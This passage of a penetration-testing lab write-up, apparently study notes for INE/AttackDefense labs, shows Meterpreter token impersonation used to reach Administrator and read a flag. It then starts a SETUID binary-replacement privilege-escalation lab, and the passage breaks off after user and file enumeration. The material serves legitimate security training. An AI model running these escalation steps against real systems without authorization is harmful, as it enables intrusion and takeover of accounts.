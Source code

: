 **Execute Token Impersonation:**
```bash
meterpreter > impersonate_token ATTACKDEFENSE\\Administrator
# [+] Delegation token available
# [+] Successfully impersonated user ATTACKDEFENSE\Administrator

meterpreter > getuid
# Server username: ATTACKDEFENSE\Administrator ← Success!
```

**Verify Escalation and Complete Objective:**
```bash
meterpreter > cat C:\\Users\\Administrator\\Desktop\\flag.txt
# x28c832a39730b7d46d6c38f1ea18e12 ← Mission accomplished!
```

**What This Lab Demonstrates:**
- **Real-world token impersonation** from actual vulnerable service
- **Complete privilege escalation** from LOCAL SERVICE to Administrator
- **Practical application** of incognito module in penetration testing
- **Evidence collection** showing before/after privilege levels
- **Time-efficient approach** completing escalation in under 10 minutes

---

### **🧪 Complete SETUID Exploitation Lab Example**

**Lab Scenario: Student User to Root via SETUID Binary Replacement**

**Target:** target.ine.local (accessed via web terminal at port 8000)
**Goal:** Escalate from student user to root privileges  
**Method:** SETUID binary exploitation through binary replacement attack
**Time Needed:** 10-15 minutes

#### **Phase 1: Initial Access and Reconnaissance**

**Access Method:**
```bash
# Navigate to: http://target.ine.local:8000
# Result: Web-based terminal interface

student@target:~$ whoami
student

student@target:~$ id
uid=1000(student) gid=1000(student) groups=1000(student)
# Starting point: Limited user privileges
```

**Local Directory Enumeration:**
```bash
student@target:~$ ls -l
total 24
-rwsr-sr-x 1 root root 8296 Sep 22  2018 greetings  ← SUID binary!
-rwxr-xr-x 1 root root 8344 Sep 22  2018 welcome
```

